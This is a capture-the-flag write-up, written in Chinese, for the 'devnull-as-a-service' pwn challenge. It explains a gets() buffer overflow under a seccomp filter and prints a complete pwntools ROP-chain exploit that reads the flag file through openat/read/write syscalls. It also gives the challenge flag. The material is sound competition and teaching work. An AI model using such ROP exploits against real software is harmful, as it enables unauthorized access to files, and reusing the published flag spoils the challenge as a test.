




# pwn - devnull-as-a-service Writeup

---  


## FLAG：
`MVM{r0p_4nd_sh3llc0d3_f0rm5_4_p3rf3c7_b4l4nc3}`

## 觀察：
- 執行檔案：使用者輸入input後結束。
- IDA分析：
	- `dev_null()`：呼叫`enable_seccomp()`，並且`gets()`存在bof漏洞。
	  
	- `enable_seccomp()`：建立許多seccomp結構並啟用seccomp規則。

## 思路：
- 手動分析`enable_seccomp()`所啟用的規則過於麻煩，可以使用[seccomp-tools](https://github.com/david942j/seccomp-tools)進行分析：
  
- 由於`open`、`execve`等 system call 被禁用，必須透過`openat`、`read`、`write`來取得flag。
- 在bof漏洞中構造ROP chain，執行上述system call。


## Exploit：  

Reference：[https://github.com/rerrorctf/writeups/blob/main/2025_01_24_x3CTF25/pwn/devnull-as-a-service/writeup.md]()

```python
#!/usr/bin/env python3
from pwn import *

SCRATCH_MEMORY = 0x4af000

# mov qword ptr [rsi], rax ; ret
GADGET_MOV_QWORD_PTR_RSI_RAX = 0x420f45

# xchg rax, rdx ; ret
GADGET_XCHG_RAX_RDX = 0x41799a
  
FLAG_SIZE = 46
  
#context.log_level = "debug"
elf = ELF("./dev_null", checksec=False)
context.binary = elf
  
p = remote("342e3496-89c9-43e5-87ac-785009edfbda.x3c.tf", 31337, ssl=True)
p.readline()
  
rop = ROP(elf)
rop.raw(b"A" * 0x10)
  
# write the path to memory
rop.rsi = SCRATCH_MEMORY
rop.rax = u64(b"/home/ct")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)
rop.rsi = SCRATCH_MEMORY + 8
rop.rax = u64(b"f/flag.t")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)
rop.rsi = SCRATCH_MEMORY + 16
rop.rax = u64(b"xt\x00\x00\x00\x00\x00\x00")
rop.raw(GADGET_MOV_QWORD_PTR_RSI_RAX)
  
# openat(-1, "/home/ctf/flag.txt", O_RDONLY) => 3
rop.rdi = -1
rop.rsi = SCRATCH_MEMORY
rop.rax = constants.SYS_openat
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
  
# read(flag, SCRATCH_MEMORY + 24, FLAG_SIZE)
rop.rdi = 3
rop.rsi = SCRATCH_MEMORY + 24
rop.rax = FLAG_SIZE
rop.raw(GADGET_XCHG_RAX_RDX)
rop.rax = constants.SYS_read
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
  
# write(stdout, SCRATCH_MEMORY + 24, FLAG_SIZE)
rop.rdi = 1
rop.rsi = SCRATCH_MEMORY + 24
rop.rax = FLAG_SIZE
rop.raw(GADGET_XCHG_RAX_RDX)
rop.rax = constants.SYS_write
rop.raw(rop.find_gadget(['syscall', 'ret'])[0])
  
p.sendline(rop.chain())
  
# MVM{r0p_4nd_sh3llc0d3_f0rm5_4_p3rf3c7_b4l4nc3}
print(p.readuntil(b"}").decode())
```

